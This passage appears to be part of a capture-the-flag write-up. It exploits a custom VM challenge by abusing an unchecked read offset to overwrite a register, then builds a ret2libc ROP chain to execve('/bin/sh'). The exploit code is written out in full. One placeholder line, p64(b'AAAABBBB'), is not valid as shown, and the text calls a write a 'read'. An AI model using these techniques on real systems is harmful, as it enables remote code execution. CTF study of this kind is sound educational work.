 After we have the address leaks, we can write a final payload to overwrite RIP on the stack with actual libc ROP gadgets and perform ret2libc. This would require to get the `read` syscall to read to stack addresses. There are also no checks performed on the offset that it reads to, which makes this vulnerable.

However, we can't simply just pop an offset to libc into `reg[1]` as each POP only takes in 32 bits and the offset between libc and the heap base is way more than 32 bits. So with this, we only have a partial arbitrary read, where we can read to addresses in the heap and lower addresses.

### VM Shellcoding (read to stack)

We can simply bypass this 32 bit restriction by not using the VM's POP instructions, but to just use the partial arbitrary read we have to read into the address where reg\[1] resides, which contains the offset, then we can write a 64 bit offset to libc to reg\[1]!

```python
reg1_addr = 0x555555570eb8
reg1_offset = reg1_addr - 0x555555570f40

payload = b''
payload += p32(0x16) + p32(0) + p32(0) + p32(0) 
payload += p32(0x16) + p32(1) + p32(reg1_offset & 0xffffffff) + p32(0)
payload += p32(0x16) + p32(2) + p32(256) + p32(0)
payload += p32(0x15) + p32(0) + p32(0x0) + p32(0)   # read(stdin, memory+offset_reg1, 256)
payload += p32(0x15) + p32(0) + p32(0x0) + p32(0)   # read(stdin, memory+stack_offset , 256)

p.send(payload)
pause()

goal_to_write = p64(b'AAAABBBB')
offset = goal_to_write - (heap_leak - 57352)
payload = p64(offset)
p.send(payload) # overwrites reg[1]
```

Breaking at the read right after modifying reg\[1], we can see the next read is reading to any address we control and its a 64 bit address, so we have a full arbitrary read!

<figure><img src="../../.gitbook/assets/image (8).png" alt=""><figcaption></figcaption></figure>

Now we just set this read address to read to the stack and overwrite RIP during the **read** syscall, then use libc ROP gadgets to perform ret2libc and get a shell.

### Classic ret2libc

Nothing special about this part, just create a ROP chain to get `execve("/bin/sh",0,0)` and overwrite at the address where RIP is found on the stack.

```python
pop_rdi = libc.address + 0x000000000002a3e5
pop_rsi = libc.address + 0x000000000002be51
pop_rdx_rbx = libc.address + 0x00000000000904a9
binsh = next(libc.search(b'/bin/sh'))

payload = p64(pop_rdi)
payload += p64(binsh)
payload += p64(pop_rsi)
payload += p64(0)
payload += p64(pop_rdx_rbx)
payload += p64(0)
payload += p64(0)
payload += p64(libc.sym['execve'])
```
